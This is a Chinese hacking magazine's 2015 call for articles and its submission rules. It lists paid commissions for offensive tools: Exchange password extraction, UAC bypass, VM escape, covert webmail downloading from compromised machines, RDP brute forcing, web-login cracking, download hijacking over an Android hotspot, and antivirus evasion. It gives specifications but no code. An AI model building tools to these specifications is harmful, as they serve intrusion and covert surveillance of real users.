黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 6 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

#### 1. Exchange 临时文件还原解密

对于 Exchange 邮件服务器，最新邮件最初会以临时文件形式存储于服务器上，若要实现对最新邮件的实时获取，可针对加密的临时文件进行还原，从而获取邮件。编写程序，实现对 Exchange 临时文件的还原。

#### 2. Exchange 账户密码获取

对 Exchange 邮件系统所有用户及对应密码的抓取、还原；Exchange 邮箱系统无法直接进行数据操作，所以需要对其数据库进行提取和还原。编写程序，实现对 Exchange 邮件系统的监控，获取邮件系统所有内建账户与密码。

#### 3. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

#### 4. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

#### 5. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 6. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

#### 7. 暴力破解 3389 远程桌面密码

- 要求：
- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

### 8. WEB 服务器批量扫描破解

- 1) 针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255

- 2) 针对目标 Web 服务器扫描要求  
可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

  - Tomcat
  - Weblogic
  - Jboss
  - Apache
  - JOnAS
  - WebSphere
  - Lotus Server
  - IIS(Webdav)
  - Axis2
  - Coldfusion
  - Monkey HTTPD
  - Nginx

- 3) 针对目标 Web 服务器后台扫描
  - 针对目标进行后台地址搜索。
- 4) 针对目标 Web 后台密码破解
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

#### 9. 编写端口扫描器

要求：

- 1) 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2) 扫描方式采用多线程，并能设置线程数；
- 3) 将功能编写成 DLL，导出功能函数；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5) 尽量多做出错异常处理，以防程序意外崩溃；
- 6) 使用 VC++2008 编译工具编写；
- 7) 支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：  
WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1) 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 3) 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1) Windows UAC 安全设置为最高级别；
- 2) 系统补丁打到最新；
- 3) 支持 32 位和 64 位系统。

## 2015 年征稿启示

《黑客防线》作为一本技术月刊，已经 15 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

#### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

#### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

#### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

#### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

#### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

#### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

#### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

#### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

#### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2) 在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：稿费当月发放（最迟不超过 2 月）。稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7) 投稿信箱及编辑联系：投稿信箱：675122680@qq.com、hadefence@gmail.com；编辑 QQ：675122680。

| 等级 | 稿费标准 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |
```